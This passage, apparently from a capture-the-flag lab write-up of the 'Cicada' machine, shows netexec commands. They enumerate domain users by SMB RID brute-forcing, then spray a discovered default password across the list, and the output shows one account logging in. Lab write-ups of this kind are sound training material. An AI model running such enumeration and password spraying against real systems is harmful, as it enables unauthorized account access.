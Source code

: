 
> Ok. There is a **password** for a new account in the system. **But for which one?**

---

## 🚪 Entry Point

> Let's list users in the system via `nxc` with the `--rid-brute` flag and save them in `users.txt` for further analysis.

```bash

nxc smb cicada.htb -u 'guest' -p '' --rid-brute | grep SidTypeUser | cut -d '\' -f2 | cut -d ' ' -f1 > users.txt

```
> Result:

```
cat users.txt

Administrator
Guest
krbtgt
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars

```
> We use the found password and the list of all users in the system and launch brute force authorization via `smb`:

```bash

nxc smb cicada.htb -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-succes

```
> Result:

```bash

SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Guest:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\krbtgt:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\CICADA-DC$:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\david.orelious:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\emily.oscars:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE

```
